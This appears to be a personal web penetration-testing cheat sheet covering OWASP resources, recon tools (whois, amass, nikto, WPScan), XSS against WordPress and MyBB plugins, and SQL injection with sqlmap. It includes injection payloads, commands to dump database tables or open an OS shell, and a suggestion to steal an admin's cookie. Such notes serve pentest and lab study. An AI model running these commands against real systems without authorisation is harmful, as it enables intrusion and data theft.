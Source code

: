 # Web

**OWASP Testing guide**

[Testing guide](https://owasp.org/www-project-web-security-testing-guide/)

[Testing Checklist](http://github.com/0xRadi/OWASP-Web-Checklist)

## Passive

**Whois**
The Name Provider service (GoDaddy, NameCheap) have DNSSec feature that prevent leak the infomation of the target from trace with `whois`

```sh
host <HOST>
whatweb <HOST>
whois <HOST>
whois <IP>

dnsrecon -d <HOST>

wafw00f -l
wafw00f <HOST> -a

sublist3r -d <HOST>
theHarvester -d <HOST>
theHarvester -d <HOST> -b all
```

**Nikto**: Web server scanning
- `nikto --help`
- `nikto -h http://<target_ip>` Basic scan
    - `-o nikto html -Format htm` Html output
    
**Web recon with OWASP Amass**:
- [github repo](https://github.com/owasp-amass/amass)
- Simple enumeration: `amass enum -d zonetransfer.me`
    - `-passive` Passive enum
    - `amass enum -d zonetransfer.me -src -ip -brute -dir /path/to/output` Brute force subdomain
- `amass intel -d zonetransfer.me -active -src -ip -dir /path/to/outp ut`
    - `-whois` Using whois utility
- `amass viz -dir /path/to/output -d3` Visualize format

## Exploit Reflected XSS Vulnerbility in WordPress

WP using plugin to implement feature and stuff. Plugin may have vulns, important to check plugins of Wordpress

[WPScan](https://wpscan.com/)
- `sudo apt install wpscan`
- `wpscan --url <target_url>` - Basic enumeration
    - `--enumeration p --plugins-detection aggressive` - Passive enumeration and aggressive plugin detection.
    - `--api-token <ur_token>` Insert the api token to be able to vulns scan

Example:
- WordPress Plugin Relevanssi 4.0.4 have [vuln](https://www.exploit-db.com/exploits/44366) ~ Reflected XSS
- Need user admin to click on the malicous link that we create
- We can level up the vulns script by steal the cookie of admin user and use that for gain access to the target.

## MyBB Stored XSS

[MyBBScan](https://github.com/0xB9/MyBBscan)

Scanner for plugin of myBB for vulns, run scan and check if any vulns.
- Example: `Download` plugin, copy payload and exploit the plugin
  - `0day.today` ~ 30121

## DOM XSS

Dom ~ Dynamic change data of element in webapp

Typically attacker make change in url, then ship it to victim, victim open url and the DOM XSS will be execute.

## SQLi

Auto scan with ZAP

Get the request that contain SQL, and send it to `FUZZ`
- Select where you want to inject the payload, add the FUZZ
- Run and check the request have a `reflected`

![Type of SQLi](./Assets/image_5.png)

In-band SQL injections - The attacker use the same communication channel to send and recivce the results
- Example: SQLi on login page - The error return on the login page as well

Error-base: Relies on intentionally causing database errors and using the error messages returned by the database to extract information of gain access.

[SQLMAP](https://sqlmap.org/)
- `sudo apt-get install sqlmap`
- `sqlmap -u "http://demo.ine.local/dosearch.php" --data "<data_exploit>" -p <parameter> --method POST`
- Alternitive, Save the request from burpsuite and run.
    - `sqlmap -r <request_file> -p <parameter> --technique=E`
    - `--technique=E` Error base.
    - For bug-bounty and pentest - set the risk level and provided level is 1
- If sqlmap identified the vulns, further attack can be perform
    - `--current-db` get current db name
    - `-D <database>` Select the db -> `-D <database> --tables` -> List table
    - `-D <database> -T <tables> --dump` Dump the table
    - `--os-shell` If shell available, open shell

Union-based: Using Union operation, the attacker inject additional `select` statement through the vulnerble input to retrive the data.

**Example**:
- If search text have vuln, and exploit is `'or 1 = 1 --`
- Base on response of the web, to see the table have how many column
    - `'or 1 = 1 union select 1,2,3,4,5` Check until the page responsed.

## XSSer

`xsser --url <target_url> -p <parameters>`
- Using custom payload `--Fp <payload>` (Final payload )